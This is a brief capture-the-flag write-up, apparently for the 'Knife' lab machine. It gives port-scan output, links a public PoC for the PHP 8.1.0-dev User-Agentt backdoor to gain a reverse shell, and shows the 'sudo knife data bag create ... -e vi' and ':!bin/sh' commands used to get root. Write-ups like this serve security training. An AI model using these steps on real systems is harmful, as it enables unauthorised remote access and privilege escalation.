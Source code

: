 # Knife Write-Up

Easy

Tags: 
`PHP`
`Backdoor`
`Easy`
`External`
`Apache`
`Penetration Tester Level 1`
`A06:2021-Vulnerable And Outdated Components`
`Public Vulnerabilities`
`Sudo Exploitation`
`Enumeration`


## Intro

1. Use vuln in php-8.1.0-dev to set up reverse shell
2. Use linPEAS to search for possible paths to escalate privileges
3. Use knife to open vim as root

## Exploit

### Port scanning

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### Install backdoor

Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution

[PoC php-8.1.0 backdoor rce github](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)

## Privilege Escalation

Search for possible paths to escalate privileges

[LinPEAS - Linux Privilege Escalation Awesome Script](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

/usr/bin/knife

Use knife to open vim as root

```
sudo knife data bag create 1 2 -e vi
```

```
:!bin/sh
```